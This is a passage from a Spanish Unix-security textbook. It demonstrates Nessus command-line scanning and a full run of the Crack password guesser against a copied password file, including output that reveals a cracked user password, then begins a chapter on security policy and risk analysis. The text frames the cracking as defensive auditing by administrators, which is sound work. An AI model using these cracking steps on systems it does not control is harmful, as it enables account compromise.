
\includegraphics{nessus.png}
%\special{pdf:epdf (nessus.jpg)}
\caption{Interfaz gr\'afico de {\it Nessus}.}
\label{nessus}
\end{center}
\end{figure}
\\A pesar de la comodidad de estos interfaces gr\'aficos, muchos usuarios de 
Unix seguimos prefiriendo la potencia y flexibilidad de la l\'{\i}nea de
\'ordenes; {\it Nessus} tambi\'en ofrece la posibilidad de escanear un sistema
sin utilizar entorno gr\'afico, volcando los resultados en un archivo de 
texto:
\begin{quote}
\begin{verbatim}
luisa:~$ cat entrada
rosita
luisa:~$ nessus -q localhost 3001 toni entrada salida.rosita
Pass phrase: 
luisa:~$
\end{verbatim}
\end{quote}
La orden anterior conecta al servidor {\tt nessusd} situado en el puerto 3001
de la m\'aquina {\tt luisa} bajo el nombre de usuario {\tt toni}, y desde 
ah\'{\i} lanza un ataque a los sistemas indicados en el archivo {\tt entrada}
(en este caso, s\'olamente a {\tt rosita}); los resultados de dicho ataque se
depositan tras el escaneo en el archivo {\tt salida.rosita}, un fichero de 
texto normal y corriente:
\begin{quote}
\begin{verbatim}
luisa:~$ head -13 salida.rosita
rosita chargen (19/tcp)
rosita ftp (21/tcp)
rosita telnet (23/tcp) INFO The Telnet service is running. This service is 
dangerous in the sense that it is not ciphered - that is, everyone can sniff
the data that passes between the telnet client and the telnet server. This 
includes logins and passwords.
You should disable this service and use ssh instead.
Solution : Comment out the 'telnet' line in /etc/inetd.conf.
Risk factor : Low
rosita smtp (25/tcp)
rosita finger (79/tcp)
rosita www (80/tcp)
rosita sunrpc (111/tcp)
luisa:~$
\end{verbatim}
\end{quote}
\section{Crack}
{\it Crack}, desarrollado por el experto en seguridad Alec Muffet, es el
`adivinador' de contrase\~nas m\'as utilizado en entornos Unix; actualmente
se encuentra en su versi\'on 5\footnote{Aunque {\it Crack6} y {\it Crack7}
existen, no son realmente nuevas versiones del programa, sino un
rompecontrase\~nas minimalista y uno de fuerza bruta, respectivamente.}, que
funciona correctamente en la mayor\'{\i}a de clones del sistema operativo 
(Linux, Solaris, OSF\ldots). Ejecutar peri\'odicamente {\it Crack} sobre el
fichero de contrase\~nas de sus sistemas es algo {\bf muy recomendable} para
cualquier administrador m\'{\i}nimamente preocupado por la seguridad, sin
importar que se utilicen mecanismos para obligar a los usuarios a elegir
{\it passwords} aceptables.\\
\\Este adivinador realiza una primera pasada sobre el fichero de claves 
intentando romper contrase\~nas en base a la informaci\'on de cada usuario
almacenada en el archivo; se trata de unas comprobaciones r\'apidas pero
efectivas, ya que aunque la cantidad de datos del fichero no es muy grande, se
trata de informaci\'on frecuentemente utilizada como {\it password}. Tras
esta pasada, entran en juego los diccionarios para seguir adivinando 
contrase\~nas (un diccionario no es m\'as que un fichero con posibles {\it
passwords} en \'el, generalmente uno por l\'{\i}nea). El propio programa se 
distribuye con algunos de estos ficheros, pero es recomendable que se
complementen con m\'as diccionarios (existen multitud de ellos disponibles a
trav\'es de Internet), especialmente con aquellos que contengan palabras
que por las caracter\'{\i}sticas del sistema sean susceptibles de ser usadas
como claves; por ejemplo, si estamos en Espa\~na seguramente nos convendr\'a
utilizar un diccionario con palabras en castellano; si administramos una 
m\'aquina de un departamento de biolog\'{\i}a, otro con t\'erminos de esta
ciencia\ldots incluso si sospechamos que nuestros usuarios son aficionados al
deporte, o a la literatura griega antigua, podemos encontrar diccionarios
adecuados a estos campos.\\
\\Con todos estos diccionarios -- los propios y los que cada administrador puede
a\~nadir -- {\it Crack} construye una base de datos con la que empieza a 
trabajar; la primera pasada utilizando diccionarios consiste simplemente en
probar palabras con todas las letras en min\'usculas. Posteriormente, se
mezclan may\'usculas y min\'usculas, y de esta forma se van combinando 
caracteres hasta a\~nadir n\'umeros y caracteres alfanum\'ericos a cada palabra
de los diccionarios para comprobar que dicha combinaci\'on no es utilizada
como contrase\~na en el sistema. Habitualmente las primeras pasadas son las
que m\'as claves son capaces de romper, pero una vez adivinados los {\it
passwords} m\'as d\'ebiles quiz\'as nos interese seguir ejecutando {\it Crack}
para obtener contrase\~nas m\'as elaboradas: recordemos que un atacante
puede aprovechar la potencia de servidores en los que ha penetrado para ejecutar
{\it Crack} sobre nuestro fichero de contrase\~nas durante mucho tiempo, por lo
que es posible que `adivine' claves que {\it a priori} no son d\'ebiles.\\
\\Tal y como se explica en su documentaci\'on, la forma en que {\it Crack}
trata de adivinar contrase\~nas es seguramente la que consigue mayor velocidad;
en primer lugar se ordenan y se agrupan las entradas del fichero de {\it 
passwords} en base a su {\it salt} (ya comentamos el mecanismo de cifrado a la
hora de hablar de autenticaci\'on de usuarios). Una vez clasificadas, para
cada grupo de {\it salts} diferente se selecciona una entrada de diccionario
convenientemente tratada (may\'usculas, n\'umeros\ldots), se cifra utilizando
el {\it salt} (esto es lo que consume mayor tiempo de CPU) y se compara con
la contrase\~na cifrada de cada miembro del grupo; si coinciden, se ha
adivinado un nuevo {\it password}.\\
\\Para invocar a {\it Crack} utilizamos como argumento el fichero de claves a
atacar; por ejemplo, imaginemos que en lugar de nuestro {\tt /etc/passwd} vamos
a romper las contrase\~nas de otra de las m\'aquinas, guardadas en el fichero
{\tt `maquina'}:
\begin{quote}
\begin{verbatim}
luisa:/usr/local/c50a# ./Crack maquina
Crack 5.0a: The Password Cracker.
(c) Alec Muffett, 1991, 1992, 1993, 1994, 1995, 1996
System: Linux luisa 2.2.13 #6 Tue Apr 25 03:58:00 CEST 2000 i686 unknown
Home: /usr/local/c50a
Invoked: ./Crack maquina
Stamp: linux-2-unknown

Crack: making utilities in run/bin/linux-2-unknown
find . -name "*~" -print | xargs -n50 rm -f
( cd src; for dir in * ; do ( cd $dir ; make clean ) ; done )
make[1]: Entering directory `/usr/local/c50a/src/lib'
rm -f dawglib.o debug.o rules.o stringlib.o *~
make[1]: Leaving directory `/usr/local/c50a/src/lib'
make[1]: Entering directory `/usr/local/c50a/src/libdes'
/bin/rm -f *.o tags core rpw destest des speed libdes.a .nfs* *.old \
*.bak destest rpw des speed
make[1]: Leaving directory `/usr/local/c50a/src/libdes'
make[1]: Entering directory `/usr/local/c50a/src/util'
rm -f *.o *~
make[1]: Leaving directory `/usr/local/c50a/src/util'
make[1]: Entering directory `/usr/local/c50a/src/lib'
make[1]: `../../run/bin/linux-2-unknown/libc5.a' is up to date.
make[1]: Leaving directory `/usr/local/c50a/src/lib'
make[1]: Entering directory `/usr/local/c50a/src/util'
all made in util
make[1]: Leaving directory `/usr/local/c50a/src/util'
Crack: The dictionaries seem up to date...
Crack: Sorting out and merging feedback, please be patient...
Crack: Merging password files...
Crack: Creating gecos-derived dictionaries
mkgecosd: making non-permuted words dictionary
mkgecosd: making permuted words dictionary
Crack: launching: cracker -kill run/Kluisa.11110   
Done
luisa:/usr/local/c50a# 
\end{verbatim}
\end{quote}
Tras devolver el control al {\it shell} el adivinador estar\'a trabajando en
segundo plano:
\begin{quote}
\begin{verbatim}
luisa:/usr/local/c50a# ps   
  PID TTY          TIME CMD
10809 ttyp3    00:00:00 bash
11327 ttyp3    00:00:07 cracker
11330 ttyp3    00:00:00 kickdict <defunct>
11333 ttyp3    00:00:00 ps
luisa:/usr/local/c50a# 
\end{verbatim}
\end{quote}
Podemos comprobar el estado del ataque en todo momento utilizando la utilidad
{\tt Reporter}:
\begin{quote}
\begin{verbatim}
luisa:/usr/local/c50a# ./Reporter
---- passwords cracked as of Thu May  4 08:05:35 CEST 2000 ----

Guessed josel [beatriz]  Jose Luis,,0, [maquina /bin/ksh]

---- done ----
luisa:/usr/local/c50a# 
\end{verbatim}
\end{quote}
Y para finalizar la ejecuci\'on del adivinador utilizaremos el {\it shellscript}
{\tt plaster}:
\begin{quote}
\begin{verbatim}
luisa:/usr/local/c50a# ./scripts/plaster 
+ kill -TERM 11327
+ rm -f run/Kluisa.11110
+ exit 0
luisa:/usr/local/c50a# 
\end{verbatim}
\end{quote}
Para finalizar el punto, hay que volver a insistir sobre el uso regular de
{\it Crack} en cada una de las m\'aquinas bajo nuestra responsabilidad; aunque
muchos administradores consideran el utilizar este tipo de programas equipararse
a un pirata, hemos de pensar siempre que es mejor que las contrase\~nas 
d\'ebiles las encuentre el {\tt root} antes que un atacante. Y si el 
administrador no utiliza un adivinador de este estilo, puede dar por seguro que
un pirata no dudar\'a en hacerlo.
 
\cleardoublepage
\chapter{Gesti\'on de la seguridad}
\section{Introducci\'on}
La gesti\'on de la seguridad de una organizaci\'on puede ser -- y en muchos
casos es -- algo infinitamente complejo, no tanto desde un punto de vista
puramente t\'ecnico sino m\'as bien desde un punto de vista organizativo; no 
tenemos m\'as
que pensar en una gran universidad o empresa con un n\'umero elevado de
departamentos o \'areas: si alguien que pertenece a uno de ellos abandona la
organizaci\'on, eliminar su acceso a un cierto sistema no implica ning\'un 
problema t\'ecnico (el administrador s\'olo ha de borrar o bloquear al usuario,
algo inmediato), pero s\'{\i} graves problemas organizativos: para empezar, 
>c\'omo se entera un administrador de sistemas que un cierto usuario, que no
trabaja directamente junto a \'el, abandona la empresa? >qui\'en decide si al
usuario se le elimina directamente o se le permite el acceso a su correo 
durante un mes? >puede el personal del \'area de seguridad decidir bloquear el
acceso a alguien de cierto `rango' en la organizaci\'on, como un directivo o 
un director de departamento, nada m\'as que este abandone la misma? >y si 
resulta que es amigo del director general o el rector, y luego este se enfada? 
Como vemos, desde un punto de vista t\'ecnico no existe ning\'un escollo 
insalvable, pero s\'{\i} que existen desde un punto de vista de la gesti\'on de 
la seguridad\ldots\\
\\Hoy en d\'{\i}a, una entidad que trabaje con cualquier tipo de entorno 
inform\'atico, desde peque\~nas empresas con negocios no relacionados 
directamente con las nuevas tecnolog\'{\i}as hasta grandes {\it telcos} de
\'ambito internacional, est\'a -- o deber\'{\i}a estar -- preocupada por su
seguridad. Y no es para menos: el n\'umero de amenazas a los entornos 
inform\'aticos y de comunicaciones crece casi exponencialmente a\~no tras a\~no,
alcanzando cotas inimaginables hace apenas una d\'ecada. Y con que el futuro de 
la interconexi\'on de sistemas sea tan solo la mitad de prometedor de lo que 
nos tratan de hacer creer, es previsible que la preocupaci\'on por la seguridad
vaya en aumento conforme nuestras vidas est\'en m\'as y m\'as `conectadas' a
Internet.\\
\\Hasta hace poco esta preocupaci\'on de la que estamos hablando se centraba 
sobre todo en los aspectos m\'as t\'ecnicos de la seguridad: alguien 
convenc\'{\i}a a alg\'un responsable t\'ecnico que con la implantaci\'on de un 
cortafuegos corporativo se acabar\'{\i}an todos los problemas de la 
organizaci\'on, y por supuesto se eleg\'{\i}a el m\'as caro aunque despu\'es
nadie supiera implantar en \'el una pol\'{\i}tica correcta; poco despu\'es, y
en vista de que el {\it firewall} no era la panacea, otro comercial avispado
convenc\'{\i}a a la direcci\'on que lo que realmente estaba de moda son los
sistemas de detecci\'on de intrusos, y por supuesto se `dejaba caer' un producto
de este tipo en la red (se `dejaba caer', no se `implantaba'). En la actualidad,
como las siglas est\'an tan de moda, lo que se lleva son las PKIs, que aunque
nadie sepa muy bien como calzarlas en el entorno de operaciones, quedan de
maravilla sobre las {\it slides}\footnote{Las {\it slides} es como muchos 
llaman a las transparencias de toda la vida, pero en formato 
PowerPoint\ldots Y es que ya se sabe: cuantos m\'as t\'erminos anglosajones
podamos soltar en una charla, m\'as parecer\'a que sabemos ;-)} de las 
presentaciones comerciales de turno.\\
\\Por fortuna, las cosas han empezado a cambiar (y digo `por fortuna' a pesar 
de ser una persona m\'as t\'ecnica que organizativa); hoy en d\'{\i}a la
seguridad va m\'as all\'a de lo que pueda ser un cortafuegos, un sistema de 
autenticaci\'on biom\'etrico o una red de sensores de detecci\'on de intrusos:
ya se contemplan aspectos que hasta hace poco se reservaban a entornos 
altamente cerrados, como bancos u organizaciones militares. Y es que nos hemos
empezado a dar cuenta de que tan importante o m\'as como un buen {\it firewall} 
es un plan de continuidad del negocio en caso de cat\'astrofe -- especial y 
desgraciadamente desde el pasado 11 de septiembre --, y que sin una 
pol\'{\i}tica de seguridad correctamente implantada en nuestra organizaci\'on
no sirven de nada los controles de acceso (f\'{\i}sicos y l\'ogicos) a la
misma. Se habla ahora de la {\bf gesti\'on de la seguridad} como algo 
cr\'{\i}tico para cualquier organizaci\'on, igual de importante dentro de la 
misma que los sistemas de calidad o las l\'{\i}neas de producto que 
desarrolla.\\
\\Algo que sin duda ha contribuido a todo esto es la aparici\'on -- m\'as o
menos reciente -- de normativas y est\'andares de seguridad, de \'ambito tanto
nacional como internacional, y sobre todo su aplicaci\'on efectiva; no tenemos
m\'as que mirar la Ley Org\'anica de Protecci\'on de Datos de Car\'acter
Personal en Espa\~na: desde que la Agencia de Protecci\'on de Datos impone
sanciones millonarias a quienes incumplen sus exigencias, todo el mundo se
preocupa de la correcta gesti\'on de su seguridad. Tambi\'en han sido 
importantes la transformaci\'on del British Standard 7799 en una norma ISO 
(17799) a la que referirse a la hora de hablar de la definici\'on de 
pol\'{\i}ticas dentro de una organizaci\'on, y la definici\'on del informe 
UNE 71501 IN como requisito para proteger y gestionar la seguridad de los
sistemas de informaci\'on dentro de las organizaciones.\\
\\Hasta tal punto se ha popularizado el mundo de la seguridad que surgen 
empresas `especializadas' hasta de debajo de las piedras, y por supuesto todas
cuentan con los mejores expertos, consultores e ingenieros de seguridad 
(t\'{\i}tulos que, al menos que yo sepa, no otorga ninguna universidad
espa\~nola); la paranoia se lleva al l\'{\i}mite cuando se ofrecen 
certificaciones comerciales de seguridad del tipo {\it `Certificado X en 
Seguridad'} o {\it `Ingeniero de Seguridad X'}. Por supuesto, aunque en el 
mercado de la seguridad hay excelentes profesionales, la l\'ogica nos debe 
llevar a desconfiar de este tipo de publicidad, pero sin llegar al extremo de 
descuidar nuestra seguridad por no confiar en nadie: como veremos, la seguridad 
gestionada es en muchas ocasiones una excelente soluci\'on.\\
\\En definitiva, en este cap\'{\i}tulo vamos a intentar hablar de aspectos
relacionados con la gesti\'on de la seguridad corporativa -- entendiendo por
`corporativa' la aplicable a una determinada organizaci\'on, bien sea una
empresa bien sea una universidad --. Comentaremos desde aspectos relacionados
con la definici\'on de pol\'{\i}ticas o los an\'alisis de riesgos hasta el
papel del \'area de Seguridad de una organizaci\'on, incluyendo aproximaciones
a la seguridad gestionada. Como siempre, existe numerosa bibliograf\'{\i}a sobre
el tema que es imprescindible consultar si queremos definir y gestionar 
de forma adecuada la seguridad de nuestra organizaci\'on; especialmente 
recomendables son \cite{kn:iso}, \cite{kn:oss} y \cite{kn:nist97}.
\section{Pol\'{\i}ticas de seguridad}
El t\'ermino {\bf pol\'{\i}tica de seguridad} se suele definir como el 
conjunto de requisitos definidos por los responsables directos o indirectos
de un sistema que indica en t\'erminos generales qu\'e est\'a y qu\'e no est\'a
permitido en el \'area de seguridad durante la operaci\'on general de dicho
sistema (\cite{kn:iso88}). Al tratarse de `t\'erminos generales', aplicables
a situaciones o recursos muy diversos, suele ser necesario refinar los 
requisitos de la pol\'{\i}tica para convertirlos en indicaciones precisas
de qu\'e es lo permitido y lo denegado en cierta parte de la operaci\'on del 
sistema, lo que se denomina {\bf pol\'{\i}tica de aplicaci\'on espec\'{\i}fica} 
(\cite{kn:muf93}).\\
\\Una pol\'{\i}tica de seguridad puede ser {\bf prohibitiva}, si todo lo que
no est\'a expresamente permitido est\'a denegado, o {\bf permisiva}, si todo
lo que no est\'a expresamente prohibido est\'a permitido. Evidentemente la
primera aproximaci\'on es mucho mejor que la segunda de cara a mantener la
seguridad de un sistema; en este caso la pol\'{\i}tica contemplar\'{\i}a todas
las actividades que se pueden realizar en los sistemas, y el resto -- las no
contempladas -- ser\'{\i}an consideradas ilegales.\\
\\Cualquier pol\'{\i}tica ha de contemplar seis elementos claves en la seguridad
de un sistema inform\'atico (\cite{kn:par94}):
\begin{itemize}
\item Disponibilidad\\
Es necesario garantizar que los recursos del sistema se encontrar\'an 
disponibles cuando se necesitan, especialmente la informaci\'on cr\'{\i}tica.
\item Utilidad\\
Los recursos del sistema y la informaci\'on manejada en el mismo ha de ser 
\'util para alguna funci\'on.
\item Integridad\\
La informaci\'on del sistema ha de estar disponible tal y como se almacen\'o
por un agente autorizado.
\item Autenticidad\\
El sistema ha de ser capaz de verificar la identidad de sus usuarios, y los 
usuarios la del sistema.
\item Confidencialidad\\
La informaci\'on s\'olo ha de estar disponible para agentes autorizados, 
especialmente su propietario.
\item Posesi\'on\\
Los propietarios de un sistema han de ser capaces de controlarlo en todo 
momento; perder este control en favor de un usuario malicioso compromete la
seguridad del sistema hacia el resto de usuarios.
\end{itemize}
Para cubrir de forma adecuada los seis elementos anteriores, con el objetivo 
permanente de
garantizar la seguridad corporativa, una pol\'{\i}tica se suele dividir en
puntos m\'as concretos a veces llamados {\bf normativas} (aunque las 
definiciones concretas de cada documento que conforma la infraestructura de
nuestra pol\'{\i}tica de seguridad -- pol\'{\i}tica, normativa, est\'andar,
procedimiento operativo\ldots -- es algo en lo que ni los propios expertos se
ponen de acuerdo). El est\'andar ISO 17799 (\cite{kn:iso}) define las siguientes
l\'{\i}neas de actuaci\'on:
\begin{itemize}
\item Seguridad organizacional.\\
Aspectos relativos a la gesti\'on de la seguridad dentro de la organizaci\'on
(cooperaci\'on con elementos externos, {\it outsourcing}, estructura del 
\'area de seguridad\ldots).
\item Clasificaci\'on y control de activos.\\
Inventario de activos y definici\'on de sus mecanismos de control, as\'{\i}
como etiquetado y clasificaci\'on de la informaci\'on corporativa.
\item Seguridad del personal.\\
Formaci\'on en materias de seguridad, clausulas de confidencialidad, reporte
de incidentes, monitorizaci\'on de personal\ldots
\item Seguridad f\'{\i}sica y del entorno.\\
Bajo este punto se engloban aspectos relativos a la seguridad f\'{\i}sica de los
recintos donde se encuentran los diferentes recursos -- incluyendo los humanos
-- de la organizaci\'on y de los sistemas en s\'{\i}, as\'{\i} como la
definici\'on de controles gen\'ericos de seguridad.
\item Gesti\'on de comunicaciones y operaciones.\\
Este es uno de los puntos m\'as interesantes desde un punto de vista 
estrictamente t\'ecnico, ya que engloba aspectos de la seguridad relativos a
la operaci\'on de los sistemas y telecomunicaciones, como los controles de
red, la protecci\'on frente a {\it malware}, la gesti\'on de copias de 
seguridad o el intercambio de {\it software} dentro de la organizaci\'on.
\item Controles de acceso.\\
Definici\'on y gesti\'on de puntos de control de acceso a los recursos 
inform\'aticos de la organizaci\'on: contrase\~nas, seguridad perimetral, 
monitorizaci\'on de accesos\ldots
\item Desarrollo y mantenimiento de sistemas.\\
Seguridad en el desarrollo y las aplicaciones, cifrado de datos, control de
{\it software}\ldots
\item Gesti\'on de continuidad de negocio.\\
Definici\'on de planes de continuidad, an\'alisis de impacto, simulacros de
cat\'astrofes\ldots
\item Requisitos legales.\\
Evidentemente, una pol\'{\i}tica ha de cumplir con la normativa vigente en el
pa\'{\i}s donde se aplica; si una organizaci\'on se extiende a lo largo de
diferentes paises, su pol\'{\i}tica tiene que ser coherente con la normativa
del m\'as restrictivo de ellos. En este apartado de la pol\'{\i}ica se 
establecen las relaciones con cada ley: derechos de propiedad intelectual, 
tratamiento de datos de car\'acter personal, exportaci\'on de cifrado\ldots 
junto a todos los aspectos relacionados con registros de eventos en los 
recursos ({\it logs}) y su mantenimiento.
\end{itemize}
\section{An\'alisis de riesgos}
En un entorno inform\'atico existen una serie de recursos (humanos, t\'ecnicos,
de infraestructura\ldots) que est\'an expuestos a diferentes tipos de riesgos:
los `normales', aquellos comunes a cualquier entorno, y los excepcionales,
originados por situaciones concretas que afectan o pueden afectar a parte de una
organizaci\'on o a toda la misma, como la inestabilidad pol\'{\i}tica en un
pa\'{\i}s o una regi\'on sensible a terremotos (\cite{kn:pla83}). Para tratar
de minimizar los efectos de un problema de seguridad se realiza lo que 
denominamos un {\bf an\'alisis de riesgos}, t\'ermino que hace referencia al 
proceso necesario para responder a tres cuestiones b\'asicas sobre nuestra 
seguridad:
\begin{itemize}
\item >qu\'e queremos proteger?
\item >contra qui\'en o qu\'e lo queremos proteger? 
\item >c\'omo lo queremos proteger?
\end{itemize}
En la pr\'actica existen dos aproximaciones para responder a estas cuestiones,
una cuantitativa y otra cualitativa. La primera de ellas es con diferencia la 
menos usada, ya que en muchos casos implica c\'alculos complejos o datos 
dif\'{\i}ciles de estimar. Se basa en dos par\'ametros fundamentales: la
probabilidad de que un suceso ocurra y una estimaci\'on del coste o las 
p\'erdidas en caso de que as\'{\i} sea; el producto de ambos t\'erminos es lo
que se denomina {\bf coste anual estimado} (EAC, {\it Estimated Annual Cost}),
y aunque te\'oricamente es posible conocer el riesgo de cualquier evento (el 
EAC) y tomar decisiones en funci\'on de estos datos, en la pr\'actica la 
inexactitud en la estimaci\'on o en el c\'alculo de par\'ametros hace 
dif\'{\i}cil y poco realista esta aproximaci\'on.\\
\\El segundo m\'etodo de an\'alisis de riesgos es el cualitativo, de uso muy
difundido en la actualidad especialmente entre las nuevas `consultoras' de
seguridad (aquellas m\'as especializadas en seguridad l\'ogica, cortafuegos,
{\it tests} de penetraci\'on y similares). Es mucho m\'as sencillo e intuitivo
que el anterior, ya que ahora no entran en juego probabilidades exactas sino
simplemente una estimaci\'on de p\'erdidas potenciales. Para ello se 
interrelacionan cuatro elementos principales: las amenazas, por definici\'on 
siempre presentes en cualquier sistema, las vulnerabilidades, que potencian el
efecto de las amenazas, el impacto asociado a una amenaza, que indica los 
da\~nos sobre un activo por la materializaci\'on de dicha amenaza, y los 
controles o salvaguardas, contramedidas para minimizar las vulnerabilidades 
(controles preventivos) o el impacto (controles curativos). Por ejemplo, una 
amenaza ser\'{\i}a un pirata que queramos o no (no depende de nosotros) va a 
tratar de modificar nuestra p\'agina {\it web} principal, el impacto ser\'{\i}a
una medida del da\~no que causar\'{\i}a si lo lograra, una vulnerabilidad
ser\'{\i}a una configuraci\'on incorrecta del servidor que ofrece las p\'aginas,
y un control la reconfiguraci\'on de dicho servidor o el incremento de su
nivel de parcheado. Con estos cuatro elementos podemos obtener un indicador 
cualitativo del nivel de riesgo asociado a un activo determinado dentro de la 
organizaci\'on, visto como la probabilidad de que una amenaza se materialice
sobre un activo y produzca un determinado impacto.\\
\\En Espa\~na es interesante la metodolog\'{\i}a de an\'alisis de riesgos
desarrollada desde el Consejo Superior de Inform\'atica (Ministerio de
Administraciones P\'ublicas) y denominada {\sc magerit} (Metodolog\'{\i}a de
An\'alisis y GEsti\'on de Riesgos de los sistemas de Informaci\'on de las
AdminisTraciones p\'ublicas); se trata de un m\'etodo formal para realizar un
an\'alisis de riesgos y recomendar los controles necesarios para su
minimizaci\'on. {\sc magerit} se basa en una aproximaci\'on cualitativa que
intenta cubrir un amplio espectro de usuarios gen\'ericos gracias a un enfoque
orientado a la adaptaci\'on del mecanismo dentro de diferentes entornos,
generalmente con necesidades de seguridad y nivel de sensibilidad tambi\'en
diferentes. En la p\'agina {\it web} del Consejo Superior de
Inform\'atica\footnote{\tt http://www.map.es/csi/} podemos encontrar
informaci\'on m\'as detallada acerca de esta metodolog\'{\i}a, as\'{\i} como
algunos ejemplos de ejecuci\'on de la misma.\\
\\Tras obtener mediante cualquier mecanismo los indicadores de riesgo en nuestra
organizaci\'on llega la hora de evaluarlos para tomar decisiones organizativas
acerca de la gesti\'on de nuestra seguridad y sus prioridades. Tenemos por una
parte el {\it riesgo calculado}, resultante de nuestro an\'alisis, y este 
riesgo calculado se ha de comparar con un cierto umbral ({\it umbral de 
riesgo}) determinado por la pol\'{\i}tica de seguridad de nuestra 
organizaci\'on; el umbral de riesgo puede ser o bien un n\'umero o bien una
etiqueta de riesgo (por ejemplo, nivel de amenaza alto, impacto alto, 
vulnerabilidad grave, etc.), y cualquier riesgo calculado superior al umbral
ha de implicar una decisi\'on de reducci\'on de riesgo. Si por el contrario el
calculado es menor que el umbral, se habla de {\it riesgo residual}, y el
mismo se considera asumible (no hay porqu\'e tomar medidas para reducirlo). El
concepto de asumible es diferente al de {\it riesgo asumido}, que denota 
aquellos riesgos calculados superiores al umbral pero sobre los que por 
cualquier raz\'on (pol\'{\i}tica, econ\'omica\ldots) se decide no tomar medidas 
de reducci\'on; evidentemente, siempre hemos de huir de esta situaci\'on.\\
\\Una vez conocidos y evaluados de cualquier forma los riesgos a los que nos 
enfrentamos podremos definir las pol\'{\i}ticas e 
implementar las soluciones pr\'acticas -- los mecanismos -- para minimizar sus
efectos. Vamos a intentar de entrar con m\'as detalle en c\'omo dar respuesta a 
cada una de las preguntas que nos hemos planteado al principio de este punto:
\subsection{Identificaci\'on de recursos}
Debemos identificar todos los recursos cuya integridad pueda ser amenazada de
cualquier forma; por ejemplo, \cite{kn:rfc1244} define b\'asicamente los 
siguientes: 
\begin{itemize}
\item {\it Hardware}\\
Procesadores, tarjetas, teclados, terminales, estaciones de trabajo, ordenadores
personales, impresoras, unidades de disco, l\'{\i}neas de comunicaci\'on, 
servidores, {\it routers}\ldots
\item {\it Software}\\
C\'odigos fuente y objeto, utilidades, programas de diagn\'ostico, sistemas 
operativos, programas de comunicaci\'on\ldots
\item Informaci\'on\\
En ejecuci\'on, almacenados en l\'{\i}nea, almacenados fuera de l\'{\i}nea,
en comunicaci\'on, bases de datos\ldots
\item Personas\\
Usuarios, operadores\ldots
\item Accesorios\\
Papel, cintas, t\'oners\ldots
\end{itemize}
Aparte del recurso en s\'{\i} (algo tangible, como un {\it router}) hemos de 
considerar la visi\'on intangible de cada uno de estos recursos (por ejemplo
la capacidad para seguir trabajando sin ese {\it router}). Es dif\'{\i}cil
generar estos aspectos intangibles de los recursos, ya que es algo que va a
depender de cada organizaci\'on, su funcionamiento, sus seguros, sus 
normas\ldots No obstante, siempre hemos de tener en cuenta algunos aspectos
comunes: privacidad de los usuarios, imagen p\'ublica de la organizaci\'on,
reputaci\'on, satisfacci\'on del personal y de los clientes -- en el caso de una
universidad, de los alumnos --, capacidad de procesamiento ante un 
fallo\ldots\\
\\Con los recursos correctamente identificados se ha de generar una lista 
final, que ya incluir\'a {\bf todo} lo que necesitamos proteger en nuestra 
organizaci\'on.
\subsection{Identificaci\'on de amenazas}
Una vez conocemos los recursos que debemos proteger es la hora de identificar
las vulnerabilidades y amenazas que se ciernen contra ellos. Una vulnerabilidad
es cualquier situaci\'on que pueda desembocar en un problema de seguridad, y
una amenaza es la acci\'on espec\'{\i}fica que aprovecha una vulnerabilidad 
para crear un problema de seguridad; entre ambas existe una estrecha relaci\'on:
sin vulnerabilidades no hay amenazas, y sin amenazas no hay vulnerabilidades.\\
\\Se suelen dividir las amenazas que existen sobre los sistemas inform\'aticos
en tres grandes grupos, en funci\'on del \'ambito o la forma en que se pueden
producir:
\begin{itemize}
\item Desastres del entorno.\\
Dentro de este grupo se incluyen todos los posibles problemas relacionados con
la ubicaci\'on del entorno de trabajo inform\'atico o de la propia 
organizaci\'on, as\'{\i} como con las personas que de una u otra forma est\'an
relacionadas con el mismo. Por ejemplo, se han de tener en cuenta desastres
naturales (terremotos, inundaciones\ldots), desastres producidos por elementos
cercanos, como los cortes de fluido el\'ectrico, y peligros relacionados con 
operadores, programadores o usuarios del sistema.
\item Amenazas en el sistema.\\
Bajo esta denominaci\'on se contemplan todas las vulnerabilidades de los 
equipos y su {\it software} que pueden acarrear amenazas a la seguridad, como 
fallos en el sistema operativo, medidas de protecci\'on que \'este ofrece, 
fallos en los programas, copias de seguridad\ldots
\item Amenazas en la red.\\
Cada d\'{\i}a es menos com\'un que una m\'aquina trabaje aislada de todas las
dem\'as; se tiende a comunicar equipos mediante redes locales, intranets o la
propia Internet, y esta interconexi\'on acarrea nuevas -- y peligrosas -- 
amenazas a la seguridad de los equipos, peligros que hasta el momento de la
conexi\'on no se suelen tener en cuenta. Por ejemplo, es necesario analizar
aspectos relativos al cifrado de los datos en tr\'ansito por la red, a proteger
una red local del resto de internet, o a instalar sistemas de autenticaci\'on
de usuarios remotos que necesitan acceder a ciertos recursos internos a la
organizaci\'on (como un investigador que conecta desde su casa a trav\'es de
un m\'odem).
\end{itemize}
Algo importante a la hora de analizar las amenazas a las que se enfrentan
nuestros sistemas es analizar los potenciales tipos de atacantes que pueden
intentar violar nuestra seguridad. Es algo normal que a la hora de hablar de
atacantes todo el mundo piense en {\it crackers}, en piratas inform\'aticos mal
llamados {\it hackers}. No obstante, esto no es m\'as que el fruto de la 
repercusi\'on que en todos los medios tienen estos individuos y sus acciones;
en realidad, la inmensa mayor\'{\i}a de problemas de seguridad vienen dados por
atacantes internos a la organizaci\'on afectada. En organismos de I+D estos
atacantes suelen ser los propios estudiantes (rara vez el personal), as\'{\i}
como piratas externos a la entidad que aprovechan la habitualmente mala 
protecci\'on de los sistemas universitarios para acceder a ellos y conseguir
as\'{\i} cierto {\it status} social dentro de un grupo de piratas. Los
conocimientos de estas personas en materias de sistemas operativos, redes o
seguridad inform\'atica suelen ser muy limitados, y sus actividades no suelen
entra\~nar muchos riesgos a no ser que se utilicen nuestros equipos para atacar
a otras organizaciones, en cuyo caso a los posibles problemas legales hay que
sumar la mala imagen que nuestras organizaciones adquieren.\\
\\No siempre hemos de contemplar a las amenazas como actos intencionados contra
nuestro sistema: muchos de los problemas pueden ser ocasionados por accidentes,
